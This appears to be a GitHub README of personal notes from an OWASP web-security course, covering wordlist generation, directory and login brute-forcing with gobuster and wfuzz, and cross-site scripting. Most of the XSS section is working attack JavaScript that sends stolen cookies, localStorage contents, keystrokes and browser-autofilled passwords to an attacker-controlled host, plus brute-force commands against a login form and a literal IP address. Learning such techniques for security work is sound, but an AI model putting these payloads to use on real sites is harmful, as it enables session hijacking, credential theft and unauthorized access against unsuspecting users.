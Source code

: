 # OWASP Course Notes Repository

This repository contains my personal notes from the recently released OWASP course, which consists of video lessons. I created this repository on GitHub to store the notes that will be useful to me in the future.

---

## CEWL - Wordlist Generation

To generate dictionaries, use the cewl tool.

---

## Gobuster - Directory and Subdomain Bruteforcing

Gobuster is a tool that helps with directory and subdomain bruteforcing.
Repository: https://github.com/OJ/gobuster
### Installation command:
```
go install github.com/OJ/gobuster/v3@latest
```
### Example usage:

```
gobuster dir -u http://188.72.108.59:10008/ -w /usr/share/dirb/wordlists/common.txt -t 5
gobuster dns -d <site.com> -w /usr/share/dirb/wordlists/common.txt #subdomains
```

--- 

## Wfuzz - File and Login Page Bruteforcing

Wfuzz is a tool for file and login page bruteforcing.

### Example usage:

```
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "<site.com>" #files discovery
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt -hc 404 -d "username=admin&password=FUZZ" -hh <number of incorrect bytes> "<site.com>" #bruteforce login page
```

---

## XSS (Cross-Site Scripting)

Reflected XSS: Creating a malicious link that needs to be sent to someone.
Stored XSS: Embedding a trap directly into the website.

### Examples:
If you need to create an alert in an `<h1>` tag:

```
<img src='x' onerror='alert(1)'>
```

### Injection:

```
<script src="http://<ip of your box>/xss.js"></script>
```

### Cookie Stealing and Data Exfiltration

To obtain the cookie file:

```
let cookie = document.cookie;
let encodedCookie = encodeURIComponent(cookie);
fetch("http://<ip>/exfil?data=" + encodedCookie);
```

## Local Storage Data Exfiltration

To retrieve data from the local storage of a website:

```
let data = JSON.stringify(localStorage);
let encodedData = encodeURIComponent(data);
fetch("http://<ip>/exfil?data=" + encodedData);
```

## Keylogging

To implement keylogging on a website:

```
function logKey(event) {
    fetch("http://<ip>/k?key=" + event.key);
}

document.addEventListener('keydown', logKey);
```

## Stealing Saved Passwords

To steal saved passwords, assuming that the Chrome browser automatically fills in the password in the input field created by us:

```
let body = document.getElementsByTagName("body")[0];

var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
u.style.opacity = "0";

var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
p.style.opacity = "0";

body.append(u);
body.append(p);

setTimeout(function() {
    fetch("http://<ip>/k?u=" + u.value + "&p=" + p.value);
}, 5000);
```

---

## Contribution

Feel free to contribute to this repository by adding more notes or suggesting improvements.